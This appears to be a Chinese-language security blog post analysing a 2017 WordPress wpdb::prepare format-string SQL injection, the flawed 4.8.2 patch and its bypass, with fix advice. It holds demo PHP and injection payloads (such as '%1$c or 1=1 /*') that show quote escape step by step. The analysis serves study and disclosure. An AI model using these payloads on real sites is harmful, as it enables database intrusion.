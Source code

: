 ```yaml
---
layout: post
title:  wordpress 格式化字符串注入
date: 2017-10-31
categories: 漏洞分析
tags:  php sql注入
---
```



* content
{:toc}


## wordpress 格式化字符串注入

wordpress 格式化字符串注入，漏洞利用难度很大，但是格式化字符串注入新颖程度和利用技巧都值得学习，小小分析一波。第一次漏洞在4.8.2被修复，再次被绕过，目前最新版是4.8.3。









## 漏洞分析


### 格式化字符串漏洞小demo

	$items = '%1$c) or 1=1 /*';
	$baz = 39;
	$string_a = "where bar in ('$items') and baz = %s" ;
	$string_a = vsprintf($string_a, $baz);
	echo $string_a;
	
sprintf和vsprintf都允许绝对引用，使用```%n$s```不会去读下一个参数，而是会读第n个占位符的数据，而占位符```%c```像```chr()```类似，把数字转换成字符，39是```'```的ascii码，所以就可以在sql注入中造成单引号逃逸

最后输出结果

	SELECT * FROM foo WHERE bar IN ('') OR 1 = 1 /*' AND baz = 39;

这是一个很惊喜的操作，在wordpress4.8.1源码中有如下源码

	if ( $delete_all ) {
		$value_clause = '';
		if ( '' !== $meta_value && null !== $meta_value && false !== $meta_value ) {
			$value_clause = $wpdb->prepare( " AND meta_value = %s", $meta_value );
		}

		$object_ids = $wpdb->get_col( $wpdb->prepare( "SELECT $type_column FROM $table WHERE meta_key = %s $value_clause", $meta_key ) );
	}

现实环境中很难同时控制```$meta_key```和```$value_clause($meta_value)```,所以对这个漏洞进行利用非常困难。为了分析方便，来构造一个类wp的小demo，输出可以进行逃逸的sql语句为成功，注:prepare代码在附录中

	$meta_key = '39';
	$meta_value = '%1$c or 1=1 /*';
	$value_clause = prepare( " AND meta_value = %s", $meta_value );
	$type_column = 'test';
	$table = 'test';
	$string_b = prepare( "SELECT $type_column FROM $table WHERE meta_key = %s $value_clause", $meta_key );
	echo $string_b;

最后输出 ```$string_b``` 为 ```SELECT test FROM test WHERE meta_key = '39'  AND meta_value = '' or 1=1 /*'```,一番很理论的操作之后得到的结果。

### 4.8.2代码修复

wordpress 在prepare中添加了过滤代码

	$query = preg_replace( '/%(?:%|$|([^dsF]))/', '%%\\1', $query ); // escape any unescaped percents 

1. 正则表达式只允许 %d,%s和%F，数字，字符串和浮点数三种类型
2. 使%n$s这种绝对位置不合法

这样修复导致了 大量使用 ```%4s```这样占位符的代码出现问题,(理论上)

	$db->prepare("SELECT * FROM foo WHERE name= '%4s' AND user_id = %d", $_GET['name'], get_current_user_id());

在这样点的代码中```%4s```会成为```%%4s```,```$_GET['name']``` 输出在```user_id = %d```，攻击者控制```user_id```.

绕过

	$meta_key = ['dump', 'or 1=1 /*'];
	$meta_value = ' %s ';

注意meta_value变量值 空格%s空格
	
	1.初始值
	query = "AND meta_value = %s"
	2.经过 $query = preg_replace( '|(?<!%)%s|', "'%s'", $query ); 替%s得到'%s'
	query = "AND meta_value = '%s'"
	3.格式化字符串输出vsprintf(query,args); args = ' %s '
	query = "AND meta_value = ' %s '"
	4.拼接字符串"SELECT $type_column FROM $table WHERE meta_key = %s $value_clause"
	query = "SELECT test FROM test WHERE meta_key = %s  AND meta_value = ' %s '"
	5.str_replace( "'%s'", '%s', $query ); // in case someone mistakenly already singlequoted it 原来是将'%s'替换成%s的操作，但是因为' %s '不满足字符串匹配条件
	query = "SELECT test FROM test WHERE meta_key = %s  AND meta_value = ' %s '"
	6.经过正则匹配过滤 $query = preg_replace( '|(?<!%)%s|', "'%s'", $query ); 替换%s得到'%s'
	query = "SELECT test FROM test WHERE meta_key = '%s'  AND meta_value = ' '%s' '"
	7.拼接字符串输出vsprintf(query,args); args=['dump', 'or 1=1 /*']
	query= "SELECT test FROM test WHERE meta_key = 'dump'  AND meta_value = ' 'or 1=1 /*' '"

可以看到输出query已经经过了单引号逃逸

### 格式化字符串漏洞分析

vsprintf使用绝对占位符，sprintf和vsprintf具有同样的特性

	vsprintf('%s, %d, %s', ["a", 1, "b"]); // "a, 1, b"
	vsprintf('%s, %d, %1$s', ["a", 2, "b"]); // "a, 2, a"

在参考2中提了另一种单引号逃逸，``` %1$'%s'``` 其中 ```%```构成padding，使```'```逃逸
![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/wpdb_sql.PNG)


	Example #8 printf(): string specifiers
	
	<?php
	$s = 'monkey';
	$t = 'many monkeys';
	
	printf("[%s]\n",      $s); // standard string output
	printf("[%10s]\n",    $s); // right-justification with spaces
	printf("[%-10s]\n",   $s); // left-justification with spaces
	printf("[%010s]\n",   $s); // zero-padding works on strings too
	printf("[%'#10s]\n",  $s); // use the custom padding character '#'
	printf("[%10.10s]\n", $t); // left-justification but with a cutoff of 10 characters
	?>
	以上例程会输出：
	
	[monkey]
	[    monkey]
	[monkey    ]
	[0000monkey]
	[####monkey]
	[many monke]

## 修复

### 简单修复

不允许用户的输入传入query，构造查询语句，可以构造查询模板

### 缓和修复

使用随机生成占位符替换%,查询之前在替换回来

[wp官方漏洞4.8.3修复代码](https://github.com/WordPress/WordPress/blob/4.8.3/wp-includes/wp-db.php)

## 参考链接

1. [针对wp中sql查询设计存在的不合理和漏洞分析原文](https://blog.ircmaxell.com/2017/10/disclosure-wordpress-wpdb-sql-injection-technical.html)
2. [404实验室分析](https://paper.seebug.org/386/)

## 附录

	$query = preg_replace( '/%(?:%|$|([^dsF]))/', '%%\\1', $query ); 
4.8.1及之前，这条语句不存在，4.8.2加入，是一次错误的修复
	
	function prepare( $query, $args ) {
	    if ( is_null( $query ) )
	        return;
	
	    // This is not meant to be foolproof -- but it will catch obviously incorrect usage.
	    if ( strpos( $query, '%' ) === false ) {
	        //_doing_it_wrong( 'wpdb::prepare', sprintf( __( 'The query argument of %s must have a placeholder.' ), 'wpdb::prepare()' ), '3.9.0' );
	        echo $query;
	        echo '\r\n';
	    }
	
	    $args = func_get_args();
	    array_shift( $args );
	    // If args were passed as an array (as in vsprintf), move them up
	    if ( isset( $args[0] ) && is_array($args[0]) )
	        $args = $args[0];
	    $query = str_replace( "'%s'", '%s', $query ); // in case someone mistakenly already singlequoted it
	    $query = str_replace( '"%s"', '%s', $query ); // doublequote unquoting
	    $query = preg_replace( '|(?<!%)%f|' , '%F', $query ); // Force floats to be locale unaware
	    $query = preg_replace( '|(?<!%)%s|', "'%s'", $query ); // quote the strings, avoiding escaped strings like %%s
	    //$query = preg_replace( '/%(?:%|$|([^dsF]))/', '%%\\1', $query ); // escape any unescaped percents
	    array_walk( $args, array( $this, 'escape_by_ref' ) );
	    return @vsprintf( $query, $args );
	}


